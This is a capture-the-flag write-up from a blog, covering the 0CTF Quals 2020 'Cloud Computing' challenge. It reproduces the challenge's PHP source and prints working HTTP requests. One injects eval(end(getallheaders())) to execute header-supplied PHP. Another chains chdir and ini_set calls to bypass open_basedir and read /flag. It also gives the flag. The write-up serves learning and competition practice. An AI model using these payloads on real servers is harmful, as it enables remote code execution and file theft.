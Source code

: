 ```yaml
---
layout: post
title: 0CTF Quals 2020 - Misc
published: true
categories: [Misc, Web]
---
```


I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat.

Although I titled this `Misc`, I only tried this one challenge as it looked like the it was the second easiest one after `easyphp`. As the challenge site is still up, I plan to try more before it gets taken down - so watch this space for other writeups!

---

## Misc

---

# Cloud Computing

#### Category: Misc | 42 solves | 211 points

<details>
  <summary>Challenge Description</summary>
  
  Welcome to our new cloud function computing platform, enjoy here. http://pwnable.org:47780/
</details>

This challenge provides all the source code on the main page, so no bruteforcing is required.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

There are 3 endpoints: 

- `pwd` that returns the current directory
- `upload` where you can test the WAF by writing data to `index.php`
- `shell` where you might be able to execute RCE if you have the correct payload. 

Actually, I never found the use for `shell` as everything that could be done there was also doable in `upload` for this challenge.

The path in `pwd` is generated on Line 7 - it's the SHA1 hash of your IP and your User Agent, presumably to prevent people from piggybacking and getting the flag by luck. 

So the first thing I did was to fuzz the WAF with `[A-Za-z0-9]` and all the default special characters - so it's less than 100 requests and *probably* within limits of what is allowed, and I found out that it seems to block all uppercase letters, `'`,  backticks, spaces, `|`, `+`, `-` and `.`. Yes, dots too. So with this, we thought that the WAF was too restrictive and the goal should be to bypass the WAF completely, instead of acting within its restrictions.

As we controlled the headers, as shown by how our User-Agent gets processed - we can try to eval the header and thus remove the WAF restriction. Thus we found `eval(end(getallheaders()));`, which we can append as a value to the `data` parameter in `upload` by adding the PHP tag with a newline character, like this: `%3C?php%0a`, which translates to `<?php\n` when URL decoded. 

So we first tried to dump all defined variables by doing this:

```
GET /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: var_dump(get_defined_vars());
    
    
```

which returned the various variables like `$_SERVER`. So we know that we're on the right track.

Moving on, we get `get_current_user()` and find that we are actually `root`, so we should have write privileges, but running `var_dump(is_writable('.'));` returned `bool(false)`. Since we cannot write anything, and with the `open_basedir` restriction in effect, it would be near impossible to traverse out of our current directory. 

And so we got stuck and went to sleep.

So anyway after the CTF ended we read a Chinese writeup and discovered that it was a false negative. The directory was actually writeable. And since we were root it would not make sense for the directory to be not-writeable.

With this in mind, solving was easy - we just have to make a directory and use the `open_basedir` bypass as it was detailed on [Shpik's blog (Korean)](http://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/). By setting `open_basedir` to the directory above the one we control, we can escape (traverse) to the root directory using `chdir('..')` and go to any path from there.

So with this payload:

```
POST /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: error_reporting(E_ALL);mkdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');chdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/flag');
     
     
```

We were able to get the flag!

![Cloud Computing Flag?](../assets/0ctf-quals-2020/Cloud-Computing-Flag.png)

... or not, since the flag appears to be an `.img` file. So we can't read it directly.

I guess this is the part it stops being `Web` and becomes `Forensics` or `Misc`. You can read my other Forensics blog posts for details on that, but basically all we have to do is to recover the `img` in the usual way - either by Autopsy or Foremost - and we did just that. 

In it, there was an image with the flag.

<details>
  <summary>FLAG</summary>
  
  flag{do_u_like_cloud_computing}
</details>

***

